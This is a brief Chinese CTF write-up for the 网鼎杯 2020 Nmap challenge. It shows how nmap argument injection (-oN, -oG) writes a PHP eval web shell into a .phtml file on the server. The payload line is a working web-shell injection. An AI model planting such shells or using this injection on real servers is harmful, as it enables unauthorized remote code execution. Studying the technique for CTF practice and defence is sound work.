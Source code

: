 # 原创
：  [网鼎杯 2020 朱雀组]Nmap

# [网鼎杯 2020 朱雀组]Nmap

#### [网鼎杯 2020 朱雀组]Nmap

## 考点

> 
这里是引用


## 思路

> 
打开页面，发现是一个nmap扫描器；<br/> 尝试之后发现能够进行一些扫描并记录扫描结果；<br/> 尝试对扫描结果进行指定文件保存，输入’ -oN test.txt '，然后访问/test.txt，得到<br/> `# Nmap 6.47 scan initiated Mon May 17 07:58:36 2021 as: nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/3f936 -oN test.txt \ \\`；<br/> 于是猜测是否可以写一个木马文件上去，测试发现过滤了php字符串；<br/> 上传内容：`&lt;?=eval($_POST['cmd']);?&gt;`<br/> 上传文件后缀：`phtml`


## Payload

Payload：`' &lt;?= eval($_POST["cmd"]);?&gt; -oG door.phtml '`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210517161125417.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210517161134917.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>
